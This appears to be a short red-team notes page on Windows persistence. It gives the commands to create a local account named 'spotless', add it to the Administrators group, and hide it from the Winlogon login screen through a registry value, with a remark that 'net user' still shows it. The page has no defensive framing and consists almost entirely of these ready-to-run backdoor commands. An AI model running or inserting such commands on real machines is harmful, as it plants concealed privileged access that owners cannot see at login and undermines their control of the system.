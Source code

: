 # Create & Hide New User

Creating User and Adding to Local Administrators

```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Hide Newly Created Local administrator

{% hint style="info" %}
This will only hide the username from winlogon screen (windows login GUI screen),  but the user can be detected with `net user` command
{% endhint %}

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```
